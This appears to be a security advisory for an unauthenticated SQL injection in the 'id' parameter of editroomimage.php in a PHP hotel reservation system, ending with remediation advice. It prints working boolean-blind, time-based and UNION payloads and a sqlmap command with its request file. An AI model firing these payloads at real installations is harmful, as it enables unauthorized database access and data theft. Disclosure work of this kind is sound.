

# Online Hotel Reservation System In PHP With Source Code editroomimage.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 郑翔（zhengxiang），罗熙(luoxi)

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'editroomimage.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", discovered a critical SQL injection vulnerability in the "editroomimage.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND 4674=(SELECT (CASE WHEN (4674=4674) THEN 4674 ELSE (SELECT 1176 UNION SELECT 2912) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND (SELECT 9944 FROM (SELECT(SLEEP(5)))phya)-- BNhp
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' UNION ALL SELECT NULL,CONCAT(0x71787a6a71,0x5451424e4d574f75776a52667977797163486b506d6d6442434a6765726266464a4241594b655148,0x71626b7871),NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL,NULL,NULL-- -
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/editroomimage.php?id=1* HTTP/1.1
Host: 192.168.248.130:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive
```

# Attack results


# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

